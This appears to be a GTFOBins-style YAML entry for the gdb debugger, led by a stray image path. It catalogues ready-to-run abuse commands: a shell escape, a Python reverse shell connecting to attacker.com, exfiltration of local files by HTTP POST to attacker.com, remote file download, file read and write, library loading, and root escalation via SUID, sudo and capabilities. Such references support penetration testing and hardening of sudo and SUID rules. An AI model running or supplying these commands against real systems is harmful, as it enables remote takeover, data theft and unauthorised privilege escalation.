 functions:
  shell:
    - code: gdb -nx -ex '!sh' -ex quit
  reverse-shell:
    - description: This requires that GDB is compiled with Python support. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gdb -nx -ex 'python import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")' -ex quit
  file-upload:
    - description: This requires that GDB is compiled with Python support. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))' -ex quit
    - description: This requires that GDB is compiled with Python support. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()' -ex quit
  file-download:
    - description: This requires that GDB is compiled with Python support. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gdb -nx -ex 'python import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])' -ex quit
  file-write:
    - description: This requires that GDB is compiled with Python support.
      code: |
        LFILE=file_to_write
        gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
  file-read:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python print(open("file_to_read").read())' -ex quit
  library-load:
    - description: This requires that GDB is compiled with Python support.
      code: gdb -nx -ex 'python from ctypes import cdll; cdll.LoadLibrary("lib.so")' -ex quit
  suid:
    - description: This requires that GDB is compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
  sudo:
    - code: sudo gdb -nx -ex '!sh' -ex quit
  capabilities:
    - description: This requires that GDB is compiled with Python support.
      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
---
